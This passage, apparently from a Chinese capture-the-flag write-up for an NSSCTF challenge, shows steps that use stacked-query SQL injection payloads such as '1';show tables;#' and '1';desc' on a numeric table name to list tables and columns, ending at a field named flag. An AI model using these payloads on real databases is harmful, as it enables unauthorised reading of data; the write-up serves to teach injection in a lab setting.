 6.查看数据表：`1';show tables;#`

![image-20250815092413957](./NSSCTF-5.assets/image-20250815092413957.png)

7.我们先来看一下第一个表1919810931114514的表结构，有两种方式：

方式一：

```
1'; show columns from tableName;#
```

方式二：

```
1';desc tableName;#
```

注意，如果tableName是纯数字，需要用`包裹，比如`

```
1';desc `1919810931114514`;#`
```

```
1';show columns from `1919810931114514`;#
```

获取到字段名为flag：
